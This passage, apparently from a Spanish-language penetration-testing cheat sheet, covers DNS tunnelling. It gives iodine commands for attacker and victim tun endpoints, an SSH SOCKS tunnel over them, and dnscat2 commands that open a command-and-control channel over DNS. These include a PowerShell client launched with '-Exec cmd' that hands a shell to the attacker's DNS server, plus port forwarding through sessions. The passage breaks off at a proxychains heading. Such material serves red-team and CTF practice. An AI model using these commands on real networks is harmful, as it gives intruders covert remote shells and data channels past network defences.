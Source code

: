 ## YARP

Un proxy inverso creado por Microsoft. Puedes encontrarlo aquí: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

Se necesita acceso de root en ambos sistemas para crear adaptadores tun y tunelizar datos entre ellos utilizando consultas DNS.
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
El túnel será muy lento. Puedes crear una conexión SSH comprimida a través de este túnel utilizando:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2

[**Descárgalo desde aquí**](https://github.com/iagox86/dnscat2)**.**

Establece un canal C\&C a través de DNS. No necesita privilegios de root.
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **En PowerShell**

Puedes usar [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) para ejecutar un cliente dnscat2 en PowerShell:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **Reenvío de puertos con dnscat**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Cambiar el DNS de proxychains
